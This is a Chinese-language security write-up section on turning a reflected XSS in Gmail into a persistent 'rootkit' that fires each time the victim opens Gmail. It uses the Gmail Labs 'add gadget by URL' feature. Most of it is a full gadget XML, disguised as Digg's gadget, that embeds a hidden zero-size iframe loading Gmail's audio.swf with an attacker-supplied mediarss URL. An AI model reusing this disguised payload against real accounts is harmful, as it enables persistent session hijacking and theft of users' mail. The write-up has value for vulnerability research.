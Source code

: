 [0x03] 从反射到rootkit

现在我们有一个利用十分优雅的xss了, 哦, 对不起, 但是这只是一个反射型xss, 用处似乎不大? 我们能不能把这个反射型xss转化成一个存储型的呢, 甚至更进一步, 变成一个rootkit, 一个xss shell, 使得用户在每一次打开gmail时都可中枪, 执行我们的js.

-什么?不可能?

-风太大,听不见. - .-

下面就看这个神奇的show吧. Gmail里面有个lab, 提供一些新奇的实验性的小玩意, 其中有一个就是"Add any gadget by URL". 你可以指定一个特定的gadget网址, 这个gadget会出现在你gmail页面的左下角. 用户可以往gadget里添加任意的html代码, 包括script, Google通过把这个gadget的域名设定为googleusercontent.com, 然后以iframe的方式载入, 来避免可能产生的安全问题. 但这个是否足够安全呢, 在大多数情况下, 是的. 可我们现在有了一个反射型xss, 这个答案就不一样了.

我根据digg.com的gadget做了一些修改, iframe了一个我们刚刚挖掘的gmail反射型xss.

```
<?xml version="1.0" encoding="UTF-8" ?><Module>
        <ModulePrefs title=" " directory_title="Digg 2.0" title_url="http://digg.com/"
            description="Discover the best news, images and videos as voted on by the Digg community, from the social news website Digg.com. You can now customize your Digg gadget by topic, and view more story information, such as comments and a friend's activity feed.  Let us know what you think at feedback.digg@digg.com"
            screenshot="http://cdn1.diggstatic.com/img/gadget/ig.a39bd77c.png"
            thumbnail="http://cdn3.diggstatic.com/img/gadget/ig-thumb.0281a8d3.png"
            author="Digg.com Inc." author_location="San Francisco, CA"
            author_email="feedback.digg@digg.com" author_affiliation="digg.com Inc."
            category="news" category2="technology">
            <Require feature="dynamic-height" />
            <Require feature="tabs" />
            <Require feature="setprefs" />
        </ModulePrefs>

        <UserPref name="user" datatype="hidden" />
        <UserPref name="thumbnail" datatype="hidden" default_value="1" />
        <UserPref name="filter" datatype="hidden" default_value="0" />
        <UserPref name="num" datatype="hidden" default_value="5" />
        <UserPref name="type" datatype="hidden" default_value="popular" />
        <UserPref name="refresh" datatype="hidden" default_value="0" />
        <UserPref name="tab" datatype="hidden" default_value="0" />
        <UserPref name="offset" datatype="hidden" default_value="0" />
        <UserPref name="pagination" datatype="hidden" default_value="0" />
        <UserPref name="business" datatype="hidden" default_value="true" />
        <UserPref name="entertainment" datatype="hidden" default_value="true" />
        <UserPref name="gaming" datatype="hidden" default_value="true" />
        <UserPref name="lifestyle" datatype="hidden" default_value="true" />
        <UserPref name="offbeat" datatype="hidden" default_value="true" />
        <UserPref name="politics" datatype="hidden" default_value="true" />
        <UserPref name="science" datatype="hidden" default_value="true" />
        <UserPref name="sports" datatype="hidden" default_value="true" />
        <UserPref name="technology" datatype="hidden" default_value="true" />
        <UserPref name="world_news" datatype="hidden" default_value="true" />


        <Content type="html">
        <![CDATA[
        <iframe width='0'style='visibility:hidden;' height='0' src="https://mail.google.com/mail/html/audio.swf?playerMode=normal&mediarss=http://localhost/gmail/2.xml&autoplay=true"></iframe>
        ]]>

        </Content>
    </Module>

```
